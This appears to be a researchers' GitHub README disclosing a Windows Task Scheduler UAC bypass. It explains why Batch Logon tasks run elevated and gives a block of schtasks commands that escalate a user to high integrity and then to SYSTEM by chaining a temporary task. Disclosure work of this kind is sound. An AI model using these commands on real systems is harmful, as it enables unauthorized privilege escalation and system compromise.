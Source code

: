 # Task Scheduler UAC Bypass
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
A UAC Bypass vulnerability has been found in Microsoft Windows, enabling attackers to bypass the User Account Control prompt, allowing them to execute high-privilege (SYSTEM) commands without user approval. By exploiting this weakness, attackers can elevate their privileges and run malicious payloads with Administrators’ rights, leading to unauthorized access, data theft, or further system compromise. 

It occurs when an attacker creates a task using Batch Logon and not with an Interactive Token. The Task Scheduler service, impersonating the user, is granting the running process the maximum allowed rights, elevating it from any integrity to the highest available. 

Notice that it elevates to the highest privileges not only for Administrators users but also for Backup Operators (allowing to get SeBackup privileges) and for Performance Log Users (Read more in the Cymulate blog).
<br>
<br>

#### Requirements
<br>

- Batch Logon rights for the task principal user (impersonated user)<br>
- Credentials of the task principal
<br>

#### Command
<br>

```bash
# Elevate to High Integrity
schtasks /create /tn poc /tr command.exe /sc minute /mo 1 /ru <username> /rp <password> /f
schtasks /run /tn poc

# Elevate to SYSTEM
schtasks /create /tn tmp /sc minute /mo 1 /ru <username> /rp <password> /tr "schtasks /create /tn poc /tr command.exe /sc minute /mo 1 /RL HIGHEST"
schtasks /run /tn tmp
schtasks /delete /tn tmp /f
```
<br>

#### Explanations
<br>

The taskhostw.exe process, hosted by svchost.exe, is running as SYSTEM. When the service is impersonating the user, a high Integrity context is initiated for the task to run.
The difference between a password registration (Batch Logon), and a default  registration (InteractiveToken) is the authentication method, as mentioned in MSDN. It will determine the integrity of the process to run. 

Along the same lines, after elevating from a medium to a high integrity, it is not enough for our task to run as SYSTEM. Impersonating an admin user with batch logon doesn’t guarantee the ability to run as SYSTEM since it wasn’t intended to run elevated. If we add to our method the /RL HIGHEST flag, we get Access Denied. 

But to remediate it, we can elevate our privileges to high with the previously mentioned UAC bypass by creating a temporary task, which then creates our SYSTEM main task from inside (see before, Elevate to SYSTEM).

